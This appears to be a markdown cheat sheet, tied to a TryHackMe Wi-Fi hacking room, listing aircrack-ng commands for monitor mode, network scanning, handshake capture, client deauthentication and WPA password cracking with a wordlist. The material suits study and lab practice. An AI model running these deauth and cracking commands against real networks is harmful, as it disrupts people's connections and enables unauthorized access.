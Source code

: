 [Wifi Hacking 101](https://tryhackme.com/r/room/wifihacking101?ref=blog.tryhackme.com) | [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)


## setup

1. [Install Aircrack-ng](https://github.com/TurboLabIt/cybersec/blob/main/script/aircrack/install.sh)


## network interfaces

````shell
sudo airmon-ng

````

Alternative:

````shell
iw dev
iw dev wlan0 info

````


## monitor mode

the Wi-Fi interface listens to all wireless traffic on a specific channel, regardless of whether 
it is directed to the device or not.
It passively captures all network traffic within range for analysis without joining a network.

````shell
sudo airmon-ng check kill
sudo airmon-ng start wlan0

````

The interface name in monitor mode is `wlan0mon`.

Alternative:

````shell
sudo ip link set dev wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set dev wlan0 up

````


## recon

MAC == BSSID (Bervice Set Identifier)

````shell
iw dev wlan0 scan

````

Alternative:

````shell
sudo airodump-ng wlan0

````


## capture + deauth attack

Capture:

````shell
sudo airodump-ng -c <network-channel-number> --bssid <access-point-mac-address> -w output-file capture.txt wlan0

````


As soon as a client is detected (`STATION`):

````shell
sudo aireplay-ng -0 1 -a <access-point-mac-address> -c <client-to-deauth-mac-address> wlan0

````

As soon as the `WPA handshake` is captured, you can stop.


## crack

````shell
sudo aircrack-ng -a 2 -b <access-point-mac-address> -w /usr/share/wordlists/rockyou.txt capture.txt

````
